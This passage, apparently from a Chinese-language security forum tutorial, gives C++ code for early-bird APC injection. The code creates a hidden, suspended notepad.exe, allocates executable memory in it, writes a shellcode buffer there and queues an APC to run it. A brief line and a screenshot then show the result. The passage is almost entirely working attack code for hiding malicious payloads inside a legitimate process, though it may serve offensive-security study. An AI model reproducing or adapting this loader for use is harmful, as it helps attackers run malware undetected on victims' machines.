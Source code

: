 ```c++

    CreateProcessA("C:\\Windows\\System32\\notepad.exe", 
        NULL, 
        NULL, 
        NULL, 
        TRUE, 
        CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, 
        NULL, 
        NULL, 
        reinterpret_cast<LPSTARTUPINFOA>(&sInfoEX),
        &pInfo);

    //分配内存
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(pInfo.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE); 

    SIZE_T* lpNumberOfBytesWritten = 0;

    //写入内存
    BOOL resWPM = WriteProcessMemory(pInfo.hProcess, lpBaseAddress, (LPVOID)shellCode, sizeof(shellCode), lpNumberOfBytesWritten); 

    //APC调用
    QueueUserAPC((PAPCFUNC)lpBaseAddress, pInfo.hThread, NULL); 

    //启动线程
    ResumeThread(pInfo.hThread); 
    CloseHandle(pInfo.hThread); 

    return 0;
}
```

这里启动的是`notepad.exe`，实现效果如下

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-84cea8eef30179685242c9b08d6dfa3f2d9b2fa3.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-84cea8eef30179685242c9b08d6dfa3f2d9b2fa3.jpg)